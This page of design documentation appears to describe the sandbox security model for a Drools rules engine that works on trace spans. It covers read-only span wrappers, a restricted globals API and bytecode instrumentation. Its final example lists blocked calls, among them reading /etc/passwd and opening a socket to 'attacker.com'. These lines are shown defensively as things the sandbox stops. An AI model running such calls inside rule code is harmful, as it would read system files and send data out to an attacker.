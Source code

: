 **Key Concepts:**
- `in` operator → Drools list membership check
- List expanded inline in DRL

---

## Sandbox Security Model (PRD-005)

### Why Sandboxing?

**Problem:** Drools rules execute arbitrary Java code in `then` clause.

**Risk:** Malicious DSL could access service layer, mutate state, or exfiltrate data.

**Solution:** Capability-based security + bytecode instrumentation.

### Sandbox Components

#### 1. SpanCapability (Immutable Wrapper)

**Purpose:** Prevent rule from mutating span data.

```java
// Generated DRL uses SpanCapability, not Span
$span: SpanCapability(operationName == "payment.charge")

// SpanCapability provides read-only access:
String name = $span.getOperationName();      // ✅ Allowed
Map<String, Object> attrs = $span.getAttributes();  // ✅ Read-only
$span.setOperationName("hacked");            // ❌ Compile error (no setter)
```

#### 2. SandboxedGlobals (Restricted API)

**Purpose:** Limit what `then` clause can do.

```java
// Generated DRL uses sandbox.createSignal(), not direct service access
then
    sandbox.createSignal($span, ruleId, message);  // ✅ Allowed
    signalService.createSignal(...);               // ❌ Blocked (not in scope)
end
```

#### 3. SandboxAgent (Bytecode Instrumentation)

**Purpose:** Prevent reflection, file I/O, network access.

```java
// Drools rules CANNOT:
Class.forName("com.fluo.services.DatabaseService");  // ❌ Blocked
new FileInputStream("/etc/passwd");                  // ❌ Blocked
new Socket("attacker.com", 443);                     // ❌ Blocked
System.exit(0);                                      // ❌ Blocked
```
